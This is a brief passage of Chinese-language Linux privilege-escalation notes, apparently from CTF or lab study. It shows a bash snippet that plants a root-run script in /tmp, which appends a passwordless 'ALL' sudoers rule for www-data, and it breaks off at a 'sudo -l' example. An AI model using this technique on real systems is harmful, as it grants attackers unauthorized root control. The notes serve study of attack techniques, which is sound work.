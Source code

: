 - <img src=".\图片\Snipaste_2023-06-18_12-17-12.png" alt="Snipaste_2023-06-18_12-17-12" style="zoom:67%;" />

- [linux详解sudoers - kosamino - 博客园 (cnblogs.com)](https://www.cnblogs.com/jing99/p/9323080.html)

- 对于 `/etc/sudoers`  sudo组的玩法，可以加入一些用户使其拥有所有的 sudo 权限，前提是当前用户可以根据一些其它的命令或程序有权限来修改  sudoers 程序，例子：

  /tmp 目录下创建一个名 update 文件，她会定期以 root 身份运行，修改 `/etc/sudoers` 文件提权

  ```bash
  echo "echo 'www-data ALL=NOPASSWD: ALL' >> /etc/sudoers" > update
  echo "echo end.....ok > /tmp/ok" >> update
  chmod +x update
  ```

------------------------------



### 不存在的目录与文件

新建一个就行了，例子：

`mrderp` 用户 查看 `sudo -l`
